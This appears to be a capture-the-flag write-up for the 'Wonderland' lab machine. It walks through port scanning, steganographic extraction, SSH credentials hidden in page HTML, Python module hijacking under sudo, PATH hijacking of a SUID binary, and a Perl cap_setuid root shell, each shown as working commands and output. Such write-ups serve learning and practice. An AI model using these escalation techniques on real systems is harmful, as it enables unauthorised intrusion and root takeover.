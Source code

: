 # Wonderland — Writeup


---

## Port scan

Run `nmap`:

```bash
sudo nmap -Pn -sV -A -T4 -vv 10.10.86.182 -p-
```

Findings:

```
22/tcp open  ssh    OpenSSH 7.6p1 Ubuntu
80/tcp open  http   Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

---

## Recon and steganography

Visited the web server. Found images under `/img/` including `/img/white_rabbit_1.jpg`.

Extracted hidden data using `steghide`:

```bash
steghide extract -sf white_rabbit_1.jpg
Enter passphrase:
# wrote extracted data to "hint.txt"
```

`hint.txt` contains:

```
follow the r a b b i t
```

Following `/r/` and the path `/r/a/b/b/i/t/` led to a page containing a hidden HTML element:

```html
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
```

These are credentials for SSH: user `alice` with password `HowDothTheLittleCrocodileImproveHisShiningTail`.

Logged in as `alice`:

```
alice@wonderland:~$ id
uid=1001(alice) gid=1001(alice)
```

Found first flag:

```
cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

---

## Privilege escalation to `rabbit`

`sudo -l` for `alice` shows:

```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The script imports `random` and uses a local import path. Created a local module `random.py` in `/home/alice` with:

```python
# /home/alice/random.py
import os
os.system("/bin/bash")
```

Run the script as `rabbit`:

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Now a shell as `rabbit`:

```
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit)
```

---

## Privilege escalation to `hatter` via SUID binary

In `rabbit`'s home there is a SUID binary `teaParty`:

```
-rwsr-sr-x 1 root root 16816 May 25 2020 teaParty
```

```
strings teaParty
```

`file` and `checksec` show it is a dynamically linked ELF with partial RELRO and NX. `strings` output includes a call to `date` without absolute path.

`rabbit` created a local `date` script that spawns a shell:

```bash
# /home/rabbit/date
#!/bin/bash
/bin/bash
```

Add `/home/rabbit` to `PATH` and run `teaParty`:

```bash
export PATH=/home/rabbit:$PATH
./teaParty
```

`teaParty` executes `date` from `PATH`, which runs the malicious script and yields a shell as `hatter`:

```
hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit)
```

`password.txt` for `hatter` contains:

```
WhyIsARavenLikeAWritingDesk?
```

---

## Root via Perl cap_setuid

On the host `getcap -r / 2>/dev/null` shows `/usr/bin/perl` has `cap_setuid+ep`.

Escalation to root:

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter)
```

Root flag found:

```
cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

---

